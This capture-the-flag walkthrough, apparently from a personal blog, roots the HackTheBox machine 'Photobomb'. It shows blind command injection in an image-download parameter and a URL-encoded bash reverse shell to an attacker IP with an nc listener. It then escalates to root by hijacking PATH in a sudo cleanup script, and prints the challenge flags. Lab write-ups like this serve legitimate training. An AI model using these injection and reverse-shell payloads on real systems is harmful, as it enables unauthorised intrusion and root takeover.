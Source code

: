 Upon initial enumeration on `photobomb.htb` within the page source code you can see there is a script running in the background `photobomb.js`
![image](https://0xc0rvu5.github.io/docs/assets/images/20230116210743.png)

Going to the `Sources` section in the developer tools you can find hard-coded credentials:
![image](https://0xc0rvu5.github.io/docs/assets/images/20230116210833.png)

- After inputting the relevant credentials you will be at:
	- `http://photobomb.htb/printer`
- There is a download functionality.
- After fuzzing the parameters i.e. `photo`, `filetype` and `dimensions` it can be determined that the `filetype` parameter is vulnerable to `command injection`.
- After running an initial `ping -c 10` I wanted to confirm since it is technically `blind command injection` since we cannot see the output of the commands.
- On host:
```bash
sudo tcpdump -i tun0 icmp
```
- Then send a `POST` request with the following `body` content.
```bash
photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg;ping+-c+10+your_ip&dimensions=30x20
```
- After confirmation and some additional trial an error, right before attempting to hop on another machine to utilize burp collaborator and it's functionality, I utilized the `Encode/Decode/Hash` functionality on `Zap` and encoded the following text:
```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.16.33/4444 <&1'
```
- To:
```bash
bash+-c+%27exec+bash+-i+%26%3E%2Fdev%2Ftcp%2F10.10.16.33%2F4444+%3C%261%27
```
- For some reason using the `brave` browser plug-in for `hack-tools` the url-encoding did not work. Anyways this successfully allowed for a reverse shell. Just make sure the proper `nc` listener is set up on the host machine via:
```bash
rlwrap nc -lvnp 4444
```
- To allow for better shell functionality:
- This isn't necessary since we already have a `bash` shell, but for some reason my terminal was acting strange so this allowed the terminal to span the entire screen.
- After checking if `python` was enabled via `python3 --version` it can be executed with no issues.
**create bash shell on new server**  
`python3 -c 'import pty;pty.spawn("/bin/bash")'`
**Gives access to clear**
`export TERM=xterm
**background shell**  
`Ctrl+Z`
**turns off own terminal echo which gives access to tab autocompletes, the arrow keys, and Ctrl+C & foregrounds the shell**  
`stty raw -echo; fg`
- The current user will be `wizard` and you can immediately obtain the `user.txt` flag
```bash
cd
cat user.txt

07521826fabfc84c3cd310cc488f2f3f
```

- After initial enumeration:
- We can see that `sudo -l` allows us to execute `/opt/cleanup.sh`
```bash
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
- Here is what it does:
```bash
cat cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

 Let's install `linpeas.sh` 
```bash
cd /tmp
```
- On host ensure you have `linpeas.sh` in the current directory
- I have mine in `~/Downloads/temp`
```bash
cd ~/Downloads/temp
python3 -m http.server
```
- On `wizard`
```bash
wget http://your_ip:8000/linpeas.sh
chmod 700 linpeas.sh
./linpeas.sh > /home/wizard/out.file
```

- Notice the `crontab` file executing every `5` minutes on the hour:
```bash
*/5 * * * * sudo /opt/cleanup.sh
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230116213438.png)

- Take note that the `find` executable is being ran from a `relative` path i.e. `find` instead of `/usr/bin/find`.
- This means we can manipulate the path in which it executes to escalate privileges
- Here is a warning in `linpeas.sh` as well:
![image](https://0xc0rvu5.github.io/docs/assets/images/20230116213652.png)

- Here is a list of world-writable folders:
```bash
find / -writable -type d 2>/dev/null

/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/dbus.socket
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/init.scope
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/gpg-agent.service
/sys/fs/cgroup/unified/user.slice/user-1000.slice/user@1000.service
/sys/fs/cgroup/unified/user.slice/user-1000.slice/user@1000.service/dbus.socket
/sys/fs/cgroup/unified/user.slice/user-1000.slice/user@1000.service/init.scope
/sys/fs/cgroup/unified/user.slice/user-1000.slice/user@1000.service/gpg-agent.service
/dev/mqueue
/dev/shm
/tmp
/tmp/.XIM-unix
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/.X11-unix
/tmp/.Test-unix
/tmp/tmux-1000
/var/tmp
/var/crash
/home/wizard
/home/wizard/.gem
/home/wizard/.gem/specs
/home/wizard/.gem/specs/rubygems.org%443
/home/wizard/.gem/specs/rubygems.org%443/quick
/home/wizard/.gem/specs/rubygems.org%443/quick/Marshal.4.8
/home/wizard/.gem/ruby
/home/wizard/.gem/ruby/2.7.0
/home/wizard/.gem/ruby/2.7.0/cache
/home/wizard/photobomb
/home/wizard/photobomb/public
/home/wizard/photobomb/public/ui_images
/home/wizard/photobomb/source_images
/home/wizard/photobomb/resized_images
/home/wizard/photobomb/log
/home/wizard/.cache
/home/wizard/.local
/home/wizard/.local/share
/home/wizard/.local/share/nano
/home/wizard/.gnupg
/home/wizard/.gnupg/private-keys-v1.d
/proc/22684/task/22684/fd
/proc/22684/fd
/proc/22684/map_files
/run/user/1000
/run/user/1000/gnupg
/run/user/1000/systemd
/run/user/1000/systemd/units
/run/screen
/run/lock
```

- `/tmp` will do just fine
```bash
cd temp
```
- Let's make the binary which will elevate our privlieges:
```bash
echo "/bin/bash" > find
chmod 777 find
```
- Now run the following command pre-fixed with `sudo`:
```bash
sudo PATH=/tmp:$PATH /opt/cleanup.sh
```
- Voila!!! Root!
```bash
cat /home/wizard/user.txt

07521826fabfc84c3cd310cc488f2f3f

cat /root/root.txt

d223b7b2cabac9d71542dc9e7481222f
```

#hacking
